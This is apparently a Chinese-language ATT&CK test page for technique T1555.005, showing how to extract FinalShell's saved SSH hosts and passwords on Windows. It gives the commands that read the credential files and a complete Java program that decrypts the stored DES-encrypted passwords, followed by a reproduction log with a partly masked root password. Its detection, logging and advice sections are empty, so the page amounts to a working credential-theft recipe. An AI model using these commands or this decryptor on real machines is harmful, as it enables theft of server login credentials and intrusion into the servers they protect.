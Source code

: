 # T1555-005-Win-命令行获取Finalshell软件保存的公钥

## 来自ATT&CK的描述

攻击者可能从第三方密码管理器中获取用户凭证。密码管理器是存储用户凭证的应用程序，通常是在一个加密的数据库中。在用户提供主密码解锁数据库后，通常可以获得凭证。数据库被解锁后，这些凭证可以被复制到内存中。这些数据库可以以文件形式存储在磁盘上。

攻击者可以通过从内存中提取主密码或纯文本凭证，从密码管理器中获取用户凭证。攻击者可以通过密码猜解获得主密码从内存提取凭证。

## 测试案例

命令行获取finalshell软件保存的公钥。

FinalShell是一体化的的服务器，网络管理软件。不仅是ssh客户端，还是功能强大的开发，运维工具，充分满足开发，运维需求。

特色功能:

免费海外服务器远程桌面加速，ssh加速，本地化命令输入框，支持自动补全，命令历史，自定义命令参数。

命令行获取finalshell软件保存的公钥:

```yml
type c:\users\<username>\AppData\Local\finalshell\knownhosts.json
type d:\finalshell(安装路径)\knownhosts.json
```

该文件中关键字host的键值为远程服务器的SSH连接的IP和端口，关键字key的键值为该远程服务器的SSH连接的公钥。

密码存在下方文件中：

```yml
c:\Users\Administrator\AppData\Local\finalshell\conn\*********_connect_config.json
D:\software\finalshell\deleted\*********\***********_connect_config.json
```

json文件是des加密，可解密获得，打开<https://c.runoob.com/compile/10/>在线编辑器，使用下面java代码即可解密

```java
import java.io.ByteArrayOutputStream;
import java.io.DataOutputStream;
import java.io.IOException;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.Random;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;

public class FinalShellDecodePass {
    public static void main(String[] args)throws Exception {
        System.out.println(decodePass("TVE5YhZeGxyOCxxxxxxCUAnkVWgAeJ3L"));
    }
    public static byte[] desDecode(byte[] data, byte[] head) throws Exception {
        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(head);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance("DES");
        cipher.init(2, securekey, sr);
        return cipher.doFinal(data);
    }
    public static String decodePass(String data) throws Exception {
        if (data == null) {
            return null;
        } else {
            String rs = "";
            byte[] buf = Base64.getDecoder().decode(data);
            byte[] head = new byte[8];
            System.arraycopy(buf, 0, head, 0, head.length);
            byte[] d = new byte[buf.length - head.length];
            System.arraycopy(buf, head.length, d, 0, d.length);
            byte[] bt = desDecode(d, ranDomKey(head));
            rs = new String(bt);

            return rs;
        }
    }
    static byte[] ranDomKey(byte[] head) {
        long ks = 3680984568597093857L / (long)(new Random((long)head[5])).nextInt(127);
        Random random = new Random(ks);
        int t = head[0];

        for(int i = 0; i < t; ++i) {
            random.nextLong();
        }

        long n = random.nextLong();
        Random r2 = new Random(n);
        long[] ld = new long[]{(long)head[4], r2.nextLong(), (long)head[7], (long)head[3], r2.nextLong(), (long)head[1], random.nextLong(), (long)head[2]};
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        DataOutputStream dos = new DataOutputStream(bos);
        long[] var15 = ld;
        int var14 = ld.length;

        for(int var13 = 0; var13 < var14; ++var13) {
            long l = var15[var13];

            try {
                dos.writeLong(l);
            } catch (IOException var18) {
                var18.printStackTrace();
            }
        }

        try {
            dos.close();
        } catch (IOException var17) {
            var17.printStackTrace();
        }

        byte[] keyData = bos.toByteArray();
        keyData = md5(keyData);
        return keyData;
    }
    public static byte[] md5(byte[] data) {
        String ret = null;
        byte[] res=null;

        try {
            MessageDigest m;
            m = MessageDigest.getInstance("MD5");
            m.update(data, 0, data.length);
            res=m.digest();
            ret = new BigInteger(1, res).toString(16);
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        }
        return res;
    }
}
```

## 检测日志

暂无，未发现Windows安全日志、Sysmon日志记录相关信息。

模拟测试环境：Windows server 2012

## 测试复现

```yml
C:\Users\Administrator>type c:\users\administrator\AppData\Local\finalshell\know
nhosts.json
{"host_list":[{"marker":"","host":"124.223.-.-","type":"ssh-rsa","key":"——————"}]}

C:\Users\Administrator>type c:\Users\Administrator\AppData\Local\finalshell\conn
\wgdw661g0vpyfqxa_connect_config.json
{"forwarding_auto_reconnect":false,"custom_size":false,"delete_time":0,"secret_k
ey_id":"","user_name":"root","remote_port_forwarding":{},"conection_type":100,
"sort_time":0,"description":"","proxy_id":"0","authentication_type":1,"drivestor
edirect":true,"delete_key_sequence":0,"password":"aaaassss————","modified_time":1664024518386,"host":"124.223.-.-","accelerate":false,"id
":"wgdw661g0vpyfqxa","height":0,"order":0,"create_time":1664024518386,"port_forw
arding_list":[],"parent_update_time":0,"rename_time":0,"backspace_key_sequence":
2,"fullscreen":false,"port":22,"terminal_encoding":"UTF-8","parent_id":"root","e
xec_channel_enable":true,"width":0,"name":"test","access_time":1664024522100}
```

## 测试留痕

未监测到有效日志

## 检测规则/思路

无

## 建议

无

## 参考推荐

MITRE-ATT&CK-T1555-005

<https://attack.mitre.org/techniques/T1555/005/>

Finalshell导出密码解密解密

<https://www.jianshu.com/p/f5bfa7b229de>
